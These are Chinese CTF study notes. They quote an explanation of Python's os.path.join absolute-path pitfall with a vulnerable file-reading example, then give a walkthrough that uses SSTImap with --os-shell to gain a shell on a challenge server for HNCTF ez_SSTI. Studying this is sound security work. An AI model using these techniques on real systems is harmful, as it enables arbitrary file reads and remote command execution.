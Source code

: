 > `os.path.join(path, *paths)` 函数用于将多个文件路径连接成一个组合的路径。第一个参数通常包含了基础路径，而之后的每个参数都被当做组件拼接到基础路径后。
>
> 然而，这个函数有一个少有人知的特性。如果拼接的某个路径以 / 开头，那么包括基础路径在内的所有前缀路径都将被删除，该路径将被视为绝对路径。下面的示例揭示了开发者可能遇到的这个陷阱。
>
> ```text
> def read_file(request):
>  filename = request.POST['filename']
>  file_path = os.path.join("var", "lib", filename)
>  if file_path.find(".") != -1:
>      return HttpResponse("Failed!")
>  with open(file_path) as f:
>      return HttpResponse(f.read(), content_type='text/plain')
> ```
>
> 在第 3 行中，我们使用 os.path.join 函数将用户输入的文件名构造出目标路径。在第 4 行中，检查生成的路径是否包含”.“，防止出现路径遍历漏洞。
>
> 但是，如果攻击者传入的文件名参数为”/a/b/c.txt“，那么第 3 行得到的变量 file_path 会是一个绝对路径（/a/b/c.txt）。即 os.path.join 会忽略掉”var/lib“部分，攻击者可以不使用“.”字符就读取到任何文件。尽管 os.path.join 的文档中描述了这种行为，但这还是导致了许多漏洞

[警惕！Python 中少为人知的 10 个安全陷阱！ - 知乎](https://zhuanlan.zhihu.com/p/467142875)

### [HNCTF 2022 WEEK2]ez_SSTI

比较逆天的题，猜不到注入点是`name`就永远做不出来。

既然题目给了[SSTI (Server Side Template Injection) - HackTricks](https://book.hacktricks.wiki/zh/pentesting-web/ssti-server-side-template-injection/index.html)，那就学习一些高级技法

```cmd
git clone https://github.com/vladko312/SSTImap.git

cd SSTImap

pip install -r requirements.txt
```

然后检索一下

```cmd
python sstimap.py -u "http://node5.anna.nssctf.cn:24352/?name=1"
```

得到结果可以注入，那就传一个伪shell上去

```cmd
python sstimap.py -u "http://node5.anna.nssctf.cn:24352/?name=1" --os-shell
```

正常`ls`发现当前目录就有flag，cat以下即可。

附一个[最全SSTI模板注入waf绕过总结（6700+字数！）_ssti注入绕过-CSDN博客](https://blog.csdn.net/2301_76690905/article/details/134301620)

### [LitCTF 2023]Flag点击就送！

flask的session签名伪造，需要一定玄学（猜测关键词为LitCTF）
